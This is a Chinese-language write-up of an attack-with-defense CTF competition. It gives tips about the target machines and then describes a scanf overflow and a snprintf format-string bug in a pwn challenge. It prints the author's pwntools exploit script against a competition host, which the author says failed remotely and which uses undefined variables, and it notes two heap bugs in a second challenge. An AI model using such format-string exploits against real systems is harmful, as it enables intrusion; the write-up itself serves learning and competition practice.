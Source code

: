 # AWD

第一次线下参加awd比赛，手忙脚乱的，一分也没拿，最后吃了保底三等奖:(

## 网上不会说的背景信息

1. 靶机分为4台，分别有4个服务，2web，2pwn，有独立ip
2. 不给密码给私钥，需要通过私钥连靶机，由于ssh对安全要求高，需要将密钥权限设为 **0400**
3. 给的靶机内核极老，是3.10还是3.15
4. 系统里没有挂载procfs，所以ps是看不了的
5. patch脚本要熟练，对手不会时间给你看题，特别是web

## 第一题

找到2个洞：`scanf`溢出写和`snprintf`格式化字符串漏洞

![scanf](assets/0pwn1.png)
![snprintf](assets/0pwn2.png)

### 个人的失败脚本

本地打通了，结果远程打不通

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './0pwn'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.103.5.4', 8888)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'$', b'Init')
    sh.sendlineafter(b'Size', str(0x40).encode())
    for i in range(0x40):
        sh.sendlineafter(b'char', b'|')
        sh.sendlineafter(b'weight', b'1')

    def fmt_attack(fmt:bytes):
        sh.sendlineafter(b'$', b'Encode')
        sh.sendlineafter(b'length', str(0xa0).encode())
        sh.sendlineafter(b'Input', '|'.join(fmt).encode())

    fmt_attack(f'%{0x50 + 5}$p' + '0'*0x30)

    fmt_attack(f'%{1}$p')
    sh.recvuntil(b'characters:\n')
    dest = int(sh.recvline(), 16) & 0xffffffffff00
    info(hex(dest))

    fmt_attack(f'%{0x5d + 5}$hhn')
    fmt_attack(f'%{0xc0}c%{dest_arg}$hhn')
    fmt_attack(f'%c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x52}c%{dest_arg}$hhn')
    fmt_attack(f'%2c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x40}c%{dest_arg}$hn')
    fmt_attack(f'%4c%{0x5d + 5}$hhn')
    fmt_attack(f'%{dest_arg}$hn')
    fmt_attack(f'%{(dest - stack) // 8 + 0x57}$s')

    sh.interactive()
```

## 第二题

也找到2个洞：`add`没有`\0`截断导致的地址泄露和`change`中的堆块越界写

![add](assets/1pwn1.png)
![change](assets/1pwn2.png)


